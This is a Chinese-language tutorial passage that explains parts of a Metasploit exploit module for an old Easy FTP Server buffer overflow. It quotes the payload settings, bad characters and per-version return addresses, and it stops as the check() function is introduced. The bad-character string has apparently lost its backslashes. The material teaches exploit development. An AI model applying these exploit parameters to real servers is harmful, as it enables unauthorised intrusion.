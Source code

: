 以下代码指示有效载荷在执行过程完成后清理自身：

```
 'DefaultOptions' => 
        { 
          'EXITFUNC' => 'thread' 
```

以下代码片段定义了 512 字节的空间供 shellcode 使用，列出了应该终止我们有效载荷传递的不良字符，并禁用了 NOP 填充：

```
 }, 
      'Privileged'     => false, 
      'Payload'        => 
        { 
          'Space'    => 512, 
          'BadChars' => "x00x0ax0dx2fx5c", 
          'DisableNops' => true 
        }, 
```

以下代码片段提供了有关目标平台和定义易受攻击目标（`0`到`9`）的说明，列出了 Easy FTP Server 的不同版本（`1.7.0.2`至`1.7.0.11`），每个版本都基于应用程序二进制文件（`ftpbasicsvr.exe`）的唯一返回地址。此外，还添加了漏洞披露日期，并将默认目标设置为`0`（`v1.7.0.2`）：

```
 'Platform'       => 'win', 
      'Targets'        => 
        [ 
[ 'Windows Universal - v1.7.0.2',   { 'Ret' =>           0x004041ec } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.3',   { 'Ret' =>           0x004041ec } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.4',   { 'Ret' =>           0x004041dc } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.5',   { 'Ret' =>           0x004041a1 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.6',   { 'Ret' =>           0x004041a1 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.7',   { 'Ret' =>           0x004041a1 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.8',   { 'Ret' =>           0x00404481 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.9',   { 'Ret' =>           0x00404441 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.10',  { 'Ret' =>           0x00404411 } ], # call ebp - from ftpbasicsvr.exe 
[ 'Windows Universal - v1.7.0.11',  { 'Ret' =>           0x00404411 } ], # call ebp - from ftpbasicsvr.exe 
        ], 
      'DisclosureDate' => 'Apr 04 2010', 
      'DefaultTarget' => 0)) 
```

在以下代码中，`check()`函数确定目标是否易受攻击：
